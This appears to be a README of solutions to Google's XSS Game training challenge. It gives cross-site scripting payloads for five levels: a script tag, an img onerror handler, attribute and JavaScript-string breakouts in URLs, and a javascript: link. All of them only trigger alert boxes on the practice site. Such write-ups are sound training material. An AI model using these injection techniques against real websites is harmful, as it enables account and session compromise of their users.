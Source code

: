 # XSS Game Google
Solution to the six XSS issues proposed by Google

## [1/6]  Level 1: Hello, world of XSS
_Solution_: put `<script>alert('xss');</script>` into form field

## [2/6]  Level 2: Persistence is key
_Solution_: share status `<img src="#" onerror="javascript:alert(1)"/>`

## [3/6]  Level 3: That sinking feeling...
_Solution_: add to url the code: `#1' onerror='alert("xss")'`

## [4/6]  Level 4: Context matters
_Solution_: put this url: `http://xss-game.appspot.com/level4/frame?timer=3')%3Balert('xss`

## [5/6]  Level 5: Breaking protocol
_Solution_: change the href link with: `javascript:alert('xss');` 